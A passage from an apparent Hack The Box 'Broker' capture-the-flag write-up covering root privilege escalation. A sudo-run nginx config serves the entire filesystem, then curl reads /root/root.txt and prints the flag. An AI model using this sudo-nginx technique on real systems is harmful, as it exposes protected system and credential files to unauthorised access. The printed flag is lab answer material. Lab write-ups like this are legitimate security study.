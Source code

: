 ```
        types_hash_max_size 2048;

        include /etc/nginx/mime.types;
        default_type application/octet-stream;

        server {
                listen 4711 default_server;
                location / {
                        root /;
                        autoindex on;
                        # index index.php;
                }
        }
}
```

let's place this `nginx.conf` inside our own home and then run

```
sudo nginx -c ~/nginx.conf
```

with our browser, we can now navigate to the http-server:

![System Root](images/2024-01-02-htb-broker/system-root.png)

## root flag

the flag can be obtained through the browser or via curl:

```
$ curl 10.10.11.243:4711/root/root.txt
f8c8d8fdd1d6dca4acb3ca0b7a955e40
```

## summary
